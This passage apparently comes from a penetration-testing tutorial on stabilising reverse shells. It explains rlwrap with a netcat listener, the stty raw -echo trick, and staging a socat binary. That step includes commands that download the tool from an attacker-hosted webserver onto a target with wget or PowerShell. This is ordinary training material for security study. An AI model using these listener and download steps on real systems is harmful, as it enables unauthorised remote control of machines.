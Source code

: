 The full technique can be seen here:

Note that if the shell dies, any input in your own terminal will not be visible
(as a result of having disabled terminal echo).
To fix this, type reset and press enter.

#### Technique 2: rlwrap

rlwrap is a program which, in simple terms, gives us access to history,
tab autocompletion and the arrow keys immediately upon receiving a shell;
however, some manual stabilisation must still be utilised if you want to be
able to use Ctrl + C inside the shell.
rlwrap is not installed by default on Kali,
so first install it with `sudo apt install rlwrap`.

To use rlwrap, we invoke a slightly different listener:

`rlwrap nc -lvnp <port>`

Prepending our netcat listener with "rlwrap" gives us a much more fully
featured shell.
This technique is particularly useful when dealing with Windows shells,
which are otherwise notoriously difficult to stabilise.
When dealing with a Linux target, it's possible to completely stabilise,
by using the same trick as in step three of the previous technique: background
the shell with Ctrl + Z, then use `stty raw -echo`; fg to stabilise and re-enter
the shell.

#### Technique 3: Socat

The third easy way to stabilise a shell is quite simply to use an initial
netcat shell as a stepping stone into a more fully-featured socat shell.
Bear in mind that this technique is limited to Linux targets,
as a Socat shell on Windows will be no more stable than a netcat shell.
To accomplish this method of stabilisation we would first transfer a
[socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)
(a version of the program compiled to have no dependencies)
up to the target machine.
A typical way to achieve this would be using a webserver on the attacking
machine inside the directory containing your socat binary
(`sudo python3 -m http.server 80`), then, on the target machine,
using the netcat shell to download the file.
On Linux this would be accomplished with curl or wget
(`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness:
in a Windows CLI environment the same can be done with Powershell,
using either Invoke-WebRequest or a webrequest system class,
depending on the version of Powershell installed
(`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`).
We will cover the syntax for sending and receiving shells with Socat in the
upcoming tasks.

With any of the above techniques,
it's useful to be able to change your terminal tty size.
This is something that your terminal will do automatically when using a
regular shell; however, it must be done manually in a reverse or bind shell if
you want to use something like a text editor which overwrites everything on the screen.
